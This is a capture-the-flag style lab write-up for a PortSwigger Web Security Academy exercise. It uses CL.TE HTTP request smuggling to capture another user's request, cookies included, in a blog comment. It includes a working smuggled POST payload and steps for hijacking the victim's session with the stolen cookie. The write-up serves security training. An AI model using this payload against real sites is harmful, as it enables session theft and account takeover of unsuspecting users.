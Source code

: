 #  Exploiting HTTP - request smuggling to capture other users' requests

## 📌 Lab Details
- **Title**: Exploiting HTTP request smuggling to capture other users' requests
- **Difficulty**: Practitioner
- **Category**: HTTP Request Smuggling
- **Lab URL**: https://portswigger.net/academy/labs/launch/a8d351250890095aedf20e8164b719e049e192bbc1f004e58d788778d6a7e982?referrer=%2fweb-security%2frequest-smuggling%2fexploiting%2flab-capture-other-users-requests

## 🔍 Summary
You use **HTTP request smuggling (CL.TE)** to trick the back-end into treating the victim’s request as part of your blog comment. When the victim browses, their request (with cookies) gets captured and stored in your comment. Viewing the comment reveals their session cookie, which you then use to log in as the victim and access their account.

## 🛠 Steps to Solve
1. Visit a blog post and post a comment.
2. Send the `comment-post` request to Burp Repeater, shuffle the body parameters so the `comment` parameter occurs last, and make sure it still works.
3. Increase the `comment-post` request's `Content-Length` to 1000, then smuggle it to the back-end server:
   ```sh
   POST / HTTP/1.1
   Host: YOUR-LAB-ID.web-security-academy.net
   Content-Type: application/x-www-form-urlencoded
   Content-Length: 256
   Transfer-Encoding: chunked

   0

   POST /post/comment HTTP/1.1
   Content-Type: application/x-www-form-urlencoded
   Content-Length: 1000
   Cookie: session=your-session-token

   csrf=your-csrf-token&postId=5&name=hacker1&email=hacker%40email.net&website=&comment=test
   ```
4. View the blog post to see if there's a comment containing a user's request. Note that the target user only browses the website intermittently so you may need to repeat this attack a few times before it's successful.
5. Copy the user's Cookie header from the comment, and use it to access their account.

## 📖 Key Takeaways
- **Request smuggling basics**: Exploits differences between front-end and back-end parsing (CL vs TE).
- **Front-end filtering bypass**: Even if front-end doesn’t allow chunked requests, smuggling still works because the back-end does.
- **Capturing victim data**: Smuggled requests can force the victim’s request into a storage mechanism (comments, logs, etc.).
- **Session hijacking**: Cookies stolen this way let you impersonate other users.
